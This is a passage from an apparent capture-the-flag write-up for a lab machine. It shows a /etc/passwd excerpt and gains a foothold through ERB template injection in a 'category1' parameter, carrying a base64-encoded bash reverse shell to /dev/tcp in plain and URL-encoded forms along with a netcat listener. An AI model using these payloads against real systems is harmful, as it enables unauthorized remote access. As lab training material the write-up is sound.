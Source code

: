 ```txt
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
susan:x:1001:1001:Susan Miller,,,:/home/susan:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

### Foothold

Moving to get a foothold now and expanding on our previous payload, we head over to [Revshells](https://revshells.com/) to generate a reverse shell payload. We can generate a `bash` reverse shell payload and paste it into the `category1` parameter. We need to base64 encode it, then pipe it to `base64 -d` on the target machine.

To get to this point, I had to try a few reverse shells before I found the one that worked and the method as well. Originally, I had just been trying a straight URL encoded netcat shell, but it would connect back to my machine and then after a few seconds, nginx would time out and the connection would be dropped. I finally landed on the below bash reverse shell payload.

```bash title="bash reverse shell payload"
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

```erb title="ERB payload (non-URL encoded)"
<%= system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEzMzcgMD4mMQ== |
base64 -d | bash') %>
```

```txt title="URL encoded ERB payload"
%0a%3c%25%3d%20%73%79%73%74%65%6d%28%27%65%63%68%6f%20%59%6d%46%7a%61%43%41%74%6
1%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%
78%4e%43%34%30%4c%7a%45%7a%4d%7a%63%67%4d%44%34%6d%4d%51%3d%3d%20%7c%20%62%61%73
%65%36%34%20%2d%64%20%7c%20%62%61%73%68%27%29%20%25%3e
```

And on our own machine

```bash
nc -lvnp 1337
```

Send the URL encoded request above...

![and here we go dark knight gif](/images/the-dark-knight-joker.gif)

![Reverse shell](/images/perfection-80-nc.png)

And just like that, we have user and are inside the user `susan`'s `/home` directory.

![Susan's home directory](/images/perfection-80-user.png)

Time to move to escalating privileges and getting root.

At this point, I could go through and ugrade the shell to a `tty` shell, but I skipped that on this machine. The thought process was it's an easy rated machine, the privesc shouldn't be too difficult so I shouldn't _really_ be the user for too long. Anyway, on we go.

### Privilege Escalation
